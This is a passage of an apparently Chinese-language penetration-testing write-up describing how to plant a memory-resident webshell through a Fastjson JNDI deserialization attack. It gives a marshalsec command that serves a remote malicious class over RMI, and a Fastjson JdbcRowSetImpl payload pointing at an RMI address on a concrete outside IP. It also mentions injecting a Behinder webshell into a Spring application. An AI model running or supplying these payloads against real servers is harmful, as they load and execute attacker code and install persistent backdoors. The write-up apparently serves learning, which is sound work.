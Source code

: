 ![image-20231222213210940](image-20231222213210940.png)



既然都做到这里了，那就再尝试一下打入内存马吧。



1、创建恶意类，见附件



2、然后我们借助marshalsec项目，启动一个RMI服务器，监听9999端口，并制定加载远程类EvalCode.class：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://xx.xx.xx:8000/#EvalCode" 9999
```

3、打入payload

```shell
{
    {"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}, 
        {
          "@type":"com.sun.rowset.JdbcRowSetImpl",
           "dataSourceName":"rmi://120.46.36.55:9999/EvalCode",
          "autoCommit":false
        }
}
```



也可以使用二开过的JNDI-exploit，有工具的话就用现成的吧。这里为了学习还是手动打入内存马。（内存马代码部分放到文末了）。直接打入冰蝎的。

注册Controller后，不知道为什么访问具体的路径的时候出现了如下问题：`java.lang.IllegalArgumentException: Expected lookupPath in request attribute "org.springframework.web.util.UrlPathHelper.PATH".`
